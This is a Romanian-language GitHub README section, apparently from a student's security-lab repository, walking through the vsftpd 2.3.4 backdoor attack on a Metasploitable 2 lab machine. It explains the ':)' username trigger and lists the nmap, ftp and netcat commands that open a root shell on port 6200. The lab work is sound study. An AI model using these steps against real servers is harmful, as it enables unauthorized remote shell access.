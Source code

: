 ### Atac FTP:

   - [Despre FTP](https://github.com/Dani780-C/Cyber-security/blob/main/learn/_ftp)
   - [Captura traficului pentru serviciului FTP in timpul atacului](https://github.com/Dani780-C/Cyber-security/blob/main/captures/ftp-traffic.pcapng)
   - versiune: *vsftpd 2.3.4*
   [In 2011, in arhiva de pe site-ul oficial al serviciului FTP a fost atasat un virus backdoor care executa un shell pe portul 6200. Pentru a executa virusul, username-ul folosit la conectarea serviciului FTP putea fi oricare sir de caractere urmat de un ":)"]

   - Pasii atacului:
      
         nmap -sSV 192.168.56.102 -p21,6200
     ##### Explicatii comanda:
        ```
        nmap <-> tool pentru a scana servicii
        -sSV <-> Stealth scan version
        192.168.56.102 <-> adresa IP a tintei (Metaplsoitable 2)
        -p21,6200 <-> scanam doar porturile 21 si 6200
        ```
     ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/ftp-nmap-1.png)

     Se poate observa ca portul 6200 inca nu este deschis.
     
         ftp 192.168.56.102 21
     
     ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/ftp-2.png)
     
         nmap 192.168.56.102 -p6200
         
     ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/ftp-nmap-2.png)
     
     Se poate vedea dupa o inca scanare a portului 6200 ca acum este deschis.
     
         nc -v 192.168.56.102 6200
         
      ##### Explicatii comanda:
        ```
        nc <-> netcat
        -v <-> verbose
        192.168.56.102 <-> adresa IP a tintei
        6200 <-> portul pe care ne conectam
        ```     
      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/ftp-done.png)
      
      
